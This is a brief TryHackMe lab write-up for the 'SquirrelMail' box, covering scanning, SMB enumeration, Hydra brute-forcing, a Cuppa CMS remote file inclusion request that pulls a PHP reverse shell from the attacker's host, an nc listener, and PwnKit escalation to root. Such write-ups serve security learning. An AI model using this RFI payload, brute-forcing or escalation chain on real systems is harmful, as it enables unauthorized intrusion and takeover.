 # TryHackMe - SquirrelMail

 Reconnaissance:
Port and service scanning:


sudo nmap -sC -sV -oN squirrelmail.thm xxxx
Directory/file brute-forcing:


dirsearch -u http://xxxx -w /path/to/wordlist.txt
gobuster dir -u http://xxxx -w /path/to/wordlist.txt
Discovered SquirrelMail.

SMB Enumeration:

enum4linux → gathered usernames and information

smbmap → checked permissions, found log1.txt, log2.txt, log3.txt

Extracted hints from logs for password brute-forcing.

Access & Authentication
Used Hydra to brute-force passwords using usernames from enum4linux and smbmap.

Verified login endpoint with Burp Suite.

Found valid passwords → logged into SMB with another user.

Discovered a text file with a hint about a hidden directory.

Web Exploitation
Navigated to the hidden directory → initially empty.

Ran ffuf:


ffuf -u http://xxxx/FUZZ -w /path/to/wordlist.txt
Found /administrator/.

Identified Cuppa CMS.

Found RFI vulnerability in alertConfigField.php.

Exploit request:

http
GET /administrator/alerts/alertConfigField.php?urlConfig=http://ip_address:8080/php-reverse-shell.php
Set up listener:


nc -nlvp 8080
Gained a reverse shell.

Privilege Escalation
Ran linpeas.sh:


./linpeas.sh
Confirmed Ubuntu 16 vulnerable to PwnKit (CVE-2021-4034).

Exploited PwnKit → gained root access.

Guided Steps
After finding SquirrelMail, I followed a walkthrough for orientation.

Everything else (SMB, ffuf, Cuppa CMS, reverse shell, PwnKit) was done independently.

Notes & Takeaways
With SMB, always run enum4linux + smbmap → often reveals users and useful files.

Burp Suite helps to confirm endpoints for Hydra.

Older distros (like Ubuntu 16) are good candidates for quick PwnKit escalation.

For CMS (e.g., Cuppa), keep a checklist of known vulnerable endpoints.